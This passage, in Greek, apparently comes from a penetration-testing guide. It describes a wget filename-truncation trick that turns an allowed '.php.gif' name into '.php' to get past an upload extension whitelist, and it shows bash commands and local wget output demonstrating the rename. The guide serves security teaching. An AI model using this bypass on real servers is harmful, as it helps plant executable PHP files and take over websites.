 Είναι κρίσιμο να κατανοήσετε την χαλαρή φύση της ανάλυσης αρχείου ρυθμίσεων του uWSGI. Ειδικότερα, το συζητούμενο payload μπορεί να ενσωματωθεί σε ένα δυαδικό αρχείο (όπως ένα εικονίδιο ή PDF), επεκτείνοντας περαιτέρω το πεδίο της πιθανής εκμετάλλευσης.

## **Κόλπος Μεταφόρτωσης Αρχείου/SSRF με το wget**

Σε ορισμένες περιπτώσεις μπορείτε να διαπιστώσετε ότι ένας διακομιστής χρησιμοποιεί το **`wget`** για **κατέβασμα αρχείων** και μπορείτε να **υποδείξετε** το **URL**. Σε αυτές τις περιπτώσεις, ο κώδικας ενδέχεται να ελέγχει ότι η επέκταση των κατεβασμένων αρχείων βρίσκεται εντός λευκής λίστας για να διασφαλιστεί ότι θα κατέβουν μόνο επιτρεπόμενα αρχεία. Ωστόσο, **αυτός ο έλεγχος μπορεί να παρακαμφθεί.**\
Το **μέγιστο** μήκος ενός **ονόματος αρχείου** στο **Linux** είναι **255**, ωστόσο, το **wget** περικόπτει τα ονόματα αρχείων σε **236** χαρακτήρες. Μπορείτε να **κατεβάσετε ένα αρχείο με το όνομα "A"\*232+".php"+".gif"**, αυτό το όνομα αρχείου θα **παρακάμψει** τον **έλεγχο** (όπως σε αυτό το παράδειγμα το **".gif"** είναι μια **έγκυρη** επέκταση) αλλά το `wget` θα το **μετονομάσει** σε **"A"\*232+".php"**.
```bash
#Create file and HTTP server
echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
python3 -m http.server 9080
```

```bash
#Download the file
wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
The name is too long, 240 chars total.
Trying to shorten...
New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
--2020-06-13 03:14:06--  http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif
Connecting to 127.0.0.1:9080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 10 [image/gif]
Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’

AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s

2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]
```
Σημειώστε ότι **μια άλλη επιλογή** που μπορεί να σκέφτεστε για να παρακάμψετε αυτόν τον έλεγχο είναι να κάνετε τον **HTTP server να ανακατευθύνει σε διαφορετικό αρχείο**, έτσι το αρχικό URL θα παρακάμψει τον έλεγχο και τότε το wget θα κατεβάσει το ανακατευθυνθέν αρχείο με το νέο όνομα. Αυτό **δεν θα λειτουργήσει** **εκτός αν** το wget χρησιμοποιείται με τη **παράμετρο** `--trust-server-names` επειδή το **wget θα κατεβάσει την ανακατευθυνθείσα σελίδα με το όνομα του αρχείου που υποδεικνύεται στο αρχικό URL**.
